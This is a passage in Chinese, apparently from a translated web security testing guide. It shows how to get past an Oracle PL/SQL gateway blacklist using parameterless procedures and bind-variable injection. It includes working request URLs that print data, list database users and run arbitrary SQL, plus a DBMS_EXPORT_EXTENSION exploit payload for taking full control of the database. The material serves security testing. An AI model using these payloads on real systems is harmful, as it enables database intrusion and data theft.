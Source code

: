 执行后产生了一个错误，错误日志为：```“PLS-00103: Encountered the symbol ‘POINT’ when expecting one of the following. . .”``` 这样我们就有了注入任意的SQL的一种方法，可以用来绕过黑名单。首先攻击者需要找到一个无参数的且不会被黑名单过滤的PL/SQL过程。有不少这类package，例如：
```
JAVA_AUTONOMOUS_TRANSACTION.PUSH
XMLGEN.USELOWERCASETAGNAMES
PORTAL.WWV_HTP.CENTERCLOSE
ORASSO.HOME
WWC_VERSION.GET_HTTP_DATABASE_INFO
```
攻击者选择上面列表中确实能在目标系统中使用的一个，例如能返回200 ok的那个。作为一各尝试，请求可能如下：```http://server.example.com/pls/dad/orasso.home?FOO=BAR```。

服务器可能会返回一个404 file not found 响应，因为```orasso.home```过程没有要求参数，但请求中有一个参数。然而，在404返回前，下列的PL/SQL会被执行：
```sql
..
..
if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then
rc__ := 2;
else
null;
orasso.wpg_session.init();
orasso.home(FOO=>:FOO);
..
..
```

注意，攻击者查询字符串中的FOO，攻击者可以使用这种方法允许任意的SQL。首先需要将方括号括起来：```http://server.example.com/pls/dad/orasso.home?);--=BAR```

这样会导致下列PL/SQL被执行：
```
..
orasso.home();--=>:);--);
..
```

注意，在双减号后的任何字符会被认为是注释。这个请求会引起内部服务器错误，因为一个绑定变量不再有用，所以攻击者需要把他加到后面。绑定变量是运行任意PL/SQL的关键。此时我们已使用HTP.PRINT打印BAR，需要绑定变量：1例如：
```http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR```

这会返回一个含有BAR的200 ok响应。等号后的```BAR```为插入到绑定变量中的数据。使用同样的技术，可以访问```owa_util.cellsprint```:
```http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS```

可执行的SQL语句包括DML和DLL语句，攻击者插入到执行立即数到：1:

```http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual```

注意，输出不会被显示。它可能利用渗透任何属于SYS的PL/SQL注入漏洞，这样能使攻击者获得完整的后台数据库控制权。例如，接下来的URL利用了```DBMS_EXPORT_EXTENSION```中的SQL注入漏洞:
```
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

#### 评估自定义PL / SQL Web应用程序
在黑盒安全性评估期间，自定义PL / SQL应用程序的代码不可见，但仍需要评估其安全漏洞。

##### 测试SQL注入
应该测试每个输入参数的SQL注入缺陷。这些很容易找到和确认。找到它们就像将单引号嵌入参数中并检查错误响应（响应中包括404 Not Found错误）一样容易。可以使用串联运算符（concatenation）来确认是否存在SQL注入。

例如，假设有一个书店 PL / SQL Web应用程序，该应用程序允许用户搜索给定作者的书：

```http://www.example.com/pls/bookstore/books.search?author=DICKENS```
```